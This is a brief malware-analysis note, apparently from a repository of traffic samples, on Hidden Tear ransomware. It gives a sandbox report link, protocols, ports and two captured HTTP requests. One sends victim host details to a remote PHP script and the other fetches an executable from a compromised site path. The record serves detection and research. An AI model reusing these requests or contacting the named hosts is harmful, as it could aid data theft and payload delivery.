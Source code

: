 # Hidden Tear Ransomware

# Links:
https://app.any.run/tasks/125d3b1e-2b9f-4ab1-abda-d3262dd6f33e/

# Protocols:
HTTP
DNS

# Ports:
80
53

# Sample:

```
GET /~advavast/write2.php?info=User-PCfe80::a179:b3ff:199:2314%11adminUSER-PCONL%5Cn HTTP/1.1
Host: server6.thcservers.com
Connection: Keep-Alive

GET /wp-content/plugins/libravatar-replace/statistic.exe HTTP/1.1
Host: daapv.de
Connection: Keep-Alive
```
